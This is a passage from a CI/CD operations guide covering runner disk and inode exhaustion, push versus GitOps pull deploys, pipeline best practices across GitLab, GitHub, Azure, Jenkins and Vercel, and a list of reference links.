The most common self-hosted failure, and nobody documents it: **runners fill up**. Docker layers, `node_modules`, and caches accumulate across jobs on a long-lived machine, and the failure is often **inode exhaustion rather than bytes** — `df -h` looks fine while every build fails with `No space left on device`.

```bash
df -h && df -i                     # always check both
docker system prune -af --volumes  # on a schedule, not after the outage
```

Full diagnosis in [Running a Server §6](server_operations.md#6-disk-the-three-ways-it-fills-up). **Ephemeral runners** — a fresh VM or pod per job — make this class of problem disappear; prefer them when you can.

---

## 10. How the Deploy Actually Happens



- **Push deploy** — the CI job holds production credentials and runs `ssh`, `kubectl apply`, `helm upgrade`, or `docker compose up`. Simple; your CI system becomes a high-value target.
- **Pull deploy (GitOps)** — an agent inside the target watches a repo or registry and reconciles. CI never holds production credentials. More moving parts, far better blast radius.

Vercel is neither: build output goes to its own edge network, every deploy is immutable, and rollback is an alias change.

---

## 11. Best Practices

- **Fail fast and cheap.** Lint and unit tests first, integration and builds after.
- **Pin versions.** `actions/checkout@v4`, `python:3.12` — never `latest`. Pin actions by SHA when they touch secrets.
- **Cache dependencies, not build output.** Restore `~/.cache/pip` or `node_modules`; caching artifacts produces mysteries.
- **Use a DAG.** `needs` in GitLab and GitHub, `dependsOn` in Azure, `parallel` in Jenkins. Stage barriers waste wall-clock.
- **Set a timeout on every job.** Defaults are generous — GitHub's is 6 hours.
- **Cancel superseded runs.** GitHub `concurrency`, GitLab `interruptible`, Azure `trigger: batch` and `pr: autoCancel`, Jenkins `disableConcurrentBuilds()`.
- **Serialise deploys.** GitLab `resource_group`, GitHub `environment`, Azure environment Exclusive Lock + `lockBehavior`, Jenkins `disableConcurrentBuilds()`.
- **Make it runnable locally.** If CI runs `make test`, you can run `make test`. Debugging by pushing commits is the slowest loop in software.
- **Protect the production branch** — required reviews and status checks, no direct pushes. See [Lifecycle → Version Control](../basics/lifecycle.md#version-control).
- **Least privilege on tokens.** GitHub `permissions`, GitLab `CI_JOB_TOKEN` allowlists, Azure per-pipeline service connection authorization, Jenkins per-folder credentials.
- **Make deploys idempotent and reversible.** Re-running should be safe; rolling back should not require a rebuild.

---

## References

- **GitLab** — [YAML reference](https://docs.gitlab.com/ci/yaml/) · [predefined variables](https://docs.gitlab.com/ci/variables/predefined_variables/) · [CI/CD variables](https://docs.gitlab.com/ci/variables/) · [components](https://docs.gitlab.com/ci/components/) · [runner executors](https://docs.gitlab.com/runner/executors/) · [configure runners](https://docs.gitlab.com/ci/runners/configure_runners/) · [pipeline security](https://docs.gitlab.com/ci/pipeline_security/)
- **GitHub** — [workflow syntax](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax) · [hosted runners](https://docs.github.com/en/actions/reference/runners/github-hosted-runners) · [using secrets](https://docs.github.com/en/actions/security-for-github-actions/security-guides/using-secrets-in-github-actions) · [security hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)
- **Azure Pipelines** — [YAML schema](https://learn.microsoft.com/en-us/azure/devops/pipelines/yaml-schema/) · [predefined variables](https://learn.microsoft.com/en-us/azure/devops/pipelines/build/variables) · [Microsoft-hosted agents](https://learn.microsoft.com/en-us/azure/devops/pipelines/agents/hosted) · [self-hosted agents](https://learn.microsoft.com/en-us/azure/devops/pipelines/agents/agents) · [templates](https://learn.microsoft.com/en-us/azure/devops/pipelines/process/templates) · [environments and approvals](https://learn.microsoft.com/en-us/azure/devops/pipelines/process/approvals) · [set secret variables](https://learn.microsoft.com/en-us/azure/devops/pipelines/process/set-secret-variables) · [workload identity federation](https://learn.microsoft.com/en-us/azure/devops/pipelines/release/configure-workload-identity)
- **Jenkins** — [pipeline syntax](https://www.jenkins.io/doc/book/pipeline/syntax/) · [using a Jenkinsfile](https://www.jenkins.io/doc/book/pipeline/jenkinsfile/) · [credentials](https://www.jenkins.io/doc/book/using/using-credentials/) · [Docker with Pipeline](https://www.jenkins.io/doc/book/pipeline/docker/) · [Kubernetes plugin](https://plugins.jenkins.io/kubernetes/)
- **Vercel** — [project configuration](https://vercel.com/docs/project-configuration) · [how Vercel builds](https://vercel.com/docs/fundamentals/builds) · [git deployments](https://vercel.com/docs/git) · [environment variables](https://vercel.com/docs/environment-variables) · [managing builds](https://vercel.com/docs/builds/managing-builds)
- **General** — [Continuous Delivery](https://continuousdelivery.com/) (Humble & Farley) · [The Twelve-Factor App](https://12factor.net/) on config in the environment · [OpenSSF](https://openssf.org/)
